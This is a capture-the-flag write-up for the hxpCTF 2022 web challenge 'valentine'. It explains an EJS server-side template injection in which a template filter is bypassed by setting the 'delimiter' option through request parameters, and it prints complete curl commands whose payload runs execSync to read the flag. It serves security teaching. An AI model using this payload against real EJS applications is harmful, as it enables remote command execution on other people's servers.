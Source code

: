 ```yaml
---
title: valentine - hxpCTF 2022
date: 2023-03-15 17:30:38
author: sk4d
author_url: https://twitter.com/RahulSundar8
categories:
  - Web
tags:
  - hxpCTF
---
```


**tl;dr**

 - SSTI in the valentine card
 - bypass filter by setting ejs delimiter option
 - RCE :yay:


<!--more-->

**Challenge Points**: 80
**No. of solves**: 116
**Solved by**: [sk4d](https://twitter.com/RahulSundar8)

## intro

I played hxpCTF 2023 last weekend with my team **bi0s**. There a were a lot of awesome web challenges. I have worked on most of the web challenges and this is the write-up for the challenge valentine

## Initial analysis

The application lets us to create a fully customisable valentines card. The application asks us to personalize our card using the `<%= name %>` tags and it gets replaced with the value in the name parameter we send to the template, this can be seen in the source

![image.png](snip.png)

here we can see that our input is passed to the tmpl varible on line number 22 and then on line number 36 , tmpl is written to a ejs template file. This template is later rendered

![image.png](test.png)

in line number 60 which results in an ejs SSTI. This looks easy but no :) there is a filter on line number 24 which blocks every templates other than `<%= name %>`

![image.png](filter.png)

this filter checks for the occurences of `<%` in our template and from there takes the next 11 characters and checks if it matches the string `<%= name %>` and if this check fails the program returns 400. So we basically can't pass anything other than `<%= name %>` in our template.

## Exploitation

We found this interesting [blog](https://eslam.io/posts/ejs-server-side-template-injection-rce/) by Eslam Salem which explained an interesting feature in ejs which allows us to overwrite the template options with the request parameters. This happens because ejs merges our parameters with the options object if the options object is empty and our request has valid option names as params
[libs/utils.js:135](https://github.com/mde/ejs/blob/80bf3d7dcc20dffa38686a58b4e0ba70d5cac8a1/lib/utils.js#L135-L143)
```js
var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];
```
we can see the option called `delimiter` which enables us to use custom characters in our ejs tags to make templates, You can read about the different ejs options [here](https://www.npmjs.com/package/ejs?#:~:text=cache%20Compiled%20functions%20are%20cached%2C%20requires%20filename). This is exactly what we were looking for and we can use this feature to bypass the filter in line 24 by setting a custom delimiter like `delimiter=?` and then we can execute payloads like ``<?= process.mainModule.require(\'child_process\').execSync(\'/readflag\').toString() ?> `` to read the flag

## Payload

```sh
curl -i -s -k -X $'POST' \
    -H $'Host: localhost:9086' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 99' -H $'Origin: http://localhost:9086' -H $'Connection: close' -H $'Referer: http://localhost:9086/' -H $'Upgrade-Insecure-Requests: 1' \
    --data-binary $'tmpl=<%=+name+%><?=+process.mainModule.require(\'child_process\').execSync(\'/readflag\').toString()+?>' \
    $'http://91.107.238.232:9086/template'
```
```sh
curl -i -s -k -X $'GET' \
    -H $'Host: localhost:9086' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Origin: http://localhost:9086' -H $'Connection: close' -H $'Referer: http://localhost:9086/' -H $'Upgrade-Insecure-Requests: 1' \
    $'http://91.107.238.232:9086/f8a6a7de-9649-42b7-a3e9-f216d73a9d6f?name=asdf&delimiter=?'
```
flag
```
hxp{W1ll_u_b3_my_V4l3nt1ne?}
```

## Closing thoughts

Thanks to the hxpCTF 2022 `-_(0_0)_-` organizers. The challenges were fun and we learnt a ton :)
